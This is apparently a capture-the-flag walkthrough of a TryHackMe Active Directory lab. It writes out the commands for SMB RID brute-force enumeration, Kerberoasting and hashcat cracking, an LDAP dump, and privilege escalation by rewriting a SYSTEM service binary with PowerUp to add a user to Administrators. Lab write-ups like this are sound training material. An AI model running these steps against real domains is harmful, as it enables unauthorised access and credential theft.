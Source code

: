 ```yaml
---
description: https://tryhackme.com/room/enterprise
---
```


# Enterprise

## Nmap

```
nmap 10.10.116.56 -p- -sS -sV 

PORT      STATE    SERVICE       VERSION
53/tcp    filtered domain
80/tcp    open     http          Microsoft IIS httpd 10.0
88/tcp    open     kerberos-sec  Microsoft Windows Kerberos (server time: 2022-04-12 18:42:06Z)
135/tcp   open     msrpc         Microsoft Windows RPC
139/tcp   open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open     ldap          Microsoft Windows Active Directory LDAP (Domain: ENTERPRISE.THM0., Site: Default-First-Site-Name)
445/tcp   open     microsoft-ds?
464/tcp   open     kpasswd5?
593/tcp   open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open     tcpwrapped
3268/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: ENTERPRISE.THM0., Site: Default-First-Site-Name)
3269/tcp  open     tcpwrapped
3389/tcp  open     ms-wbt-server Microsoft Terminal Services
5357/tcp  open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
5985/tcp  open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
7990/tcp  open     http          Microsoft IIS httpd 10.0
9389/tcp  open     mc-nmf        .NET Message Framing
47001/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open     msrpc         Microsoft Windows RPC
49665/tcp open     msrpc         Microsoft Windows RPC
49666/tcp open     msrpc         Microsoft Windows RPC
49668/tcp open     msrpc         Microsoft Windows RPC
49669/tcp open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open     msrpc         Microsoft Windows RPC
49672/tcp open     msrpc         Microsoft Windows RPC
49678/tcp open     msrpc         Microsoft Windows RPC
49702/tcp open     msrpc         Microsoft Windows RPC
49706/tcp open     msrpc         Microsoft Windows RPC
Service Info: Host: LAB-DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

**Note:** Add the following to /etc/hosts.

```
<IP>     lab.enterprise.thm lab-dc.enterprise.thm enterprise.thm 
```

Starting out we check SMB and find that anonymous login is allowed.

```bash
crackmapexec smb <IP> -u 'a' -p '' 
```

![](<../../../.gitbook/assets/image (891).png>)

Running `crackmapexec` with various parameters we are able to identify users using a RID brute force.

```bash
crackmapexec smb <IP> -u 'a' -p '' --loggedon-users --sessions --users  --rid-brute 10000 | grep '(SidTypeUser)' 
```

![](<../../../.gitbook/assets/image (117) (2).png>)

However, we are unable to proceed with any of this information so far. Brute forcing the user accounts proved to be unsuccessful.

Checking the web server running on port 7790 reveals the following below; where we see that Enterprise-THM is moving to Github.

![](<../../../.gitbook/assets/image (439).png>)

Searching for Enterprise-THM on Google shows the following Github page.

**Github:** [https://github.com/Enterprise-THM](https://github.com/Enterprise-THM)

On the right we see a profile for "nik".

![](<../../../.gitbook/assets/image (254).png>)

We can see under the profile a mgmtScript.ps1 file. Nothing of interest here so far...

![](<../../../.gitbook/assets/image (384).png>)

However, looking back at the file commit history we see the original file upload which had user credentials stored within the script.

![](<../../../.gitbook/assets/image (202).png>)

We can take these user credentials and list the SMB shares on the target Domain Controller.

![](<../../../.gitbook/assets/image (186).png>)

Finding some sensitive documents. I tried to crack these after converting them to a hash format with `office2john.py`. I was unable to successfully crack the hashes after some time.

![](<../../../.gitbook/assets/image (2069).png>)

Looking inside the path shown below we find `Consolehost_hisory.txt`.

![](<../../../.gitbook/assets/image (44) (2).png>)

Reading the contents of `Consolehost_hisory.txt` we see some credential information.

![](<../../../.gitbook/assets/image (449).png>)

I was unable to find anywhere where the credentials are usable. As such, I went back to further enumerating with Nik's credentials.

```bash
GetUserSPNs.py lab.enterprise.thm/nik:<Password> -request -dc-ip <IP>
```

![](<../../../.gitbook/assets/image (1765).png>)

We recevie a TGT hash for the account _bitbucket_. Using Hashcat we are able to crack this quite quickly aganst the `rockyou.txt` wordlist.

```bash
hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt 
```

![](<../../../.gitbook/assets/image (62).png>)

With the new set of credentials we are then able to run `ldapdomaindump` to dump `LDAP` information into HTLM format.

```
ldapdomaindump -u lab.enterprise.thm\\bitbucket -p <Password> ldap://<IP>
```

![](<../../../.gitbook/assets/image (484).png>)

Viewing the Domain Users group we notice in the description field, a password is left in the clear for the user `contractor-temp`. Again, we are unable to process in the envionment with these credentials.

Looking furhter into the LDAP information we see the user bitbucket is a member of "Remote Desktop Users".

![](<../../../.gitbook/assets/image (315).png>)

```bash
/xfreerdp /v:<IP> /u:'bitbucket' /p:<Password> +clipboard /dynamic-resolution
```

We can then login over `RDP` and grab the `user.txt` flag.

![](<../../../.gitbook/assets/image (521).png>)

After grabbing the flag `PowerUp.ps1` is uploaded to the Domain Controller and run with the "Invoke-AllChecks" command.

![](<../../../.gitbook/assets/image (1578).png>)

We see that the service "zerotieroneservice" runs as SYSTEM, and we have the ability to change the service binary as well as manipulate the running state of the service.

The command below is used to abuse this as well as add our current user bitbucket to the Administrators group.

```powershell
Install-ServiceBinary -Name "zerotieroneservice" -Command "net localgroup Administrators lab.enterprise.thm\bitbucket /add"
```

![](<../../../.gitbook/assets/image (921).png>)

After performing the service abuse we then stop and start the zerotieroneservice.

```
sc.exe stop zerotieroneservice
sc.exe start zerotieroneservice
```

Checking bitbucket's group memberships we see we are now a member of the Administrators group.

![](<../../../.gitbook/assets/image (173).png>)

Firstly, we need to logoff from command prompt and sign in again over RDP to referesh our privileges to reflect that of an Administrator.

![](<../../../.gitbook/assets/image (1737).png>)

We are then able to read the `root.txt` flag on the Administrators desktop.

![](<../../../.gitbook/assets/image (207).png>)
